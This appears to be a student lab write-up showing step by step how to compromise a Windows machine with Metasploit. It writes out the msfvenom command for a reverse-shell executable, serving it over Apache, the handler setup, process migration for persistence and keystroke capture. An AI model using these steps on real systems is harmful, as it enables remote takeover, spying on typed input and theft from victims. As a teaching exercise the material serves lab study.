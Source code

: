# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/9109175c-dded-423b-843a-77b8081671b4)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/f8cf502d-6255-4087-ad82-00592a640443)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/e13ab1e0-aa46-4592-ba8a-6cbb83296174)

Start apache server sudo systemctl apache2 start

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/f901b4a3-82d3-4fc1-80be-a1bdb17f49d5)

Check the status of apache2

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/3017efd0-723a-456d-8a25-818fbf66059c)

## Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/950bdfab-e8ea-4034-912b-7ebd68e85922)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/0b5a10f0-aaf5-4c4d-9fd0-c455c540e10f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/5266d231-54c8-42f0-be18-468c941009a7)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/0faef97e-d1c7-46a6-a147-da07b24fe96d)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/NAVEENKUMAR4325/Compromising-windows-using-Metasploit/assets/119479566/f143cc52-32c6-4d27-b953-6ae3c36fa83a)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
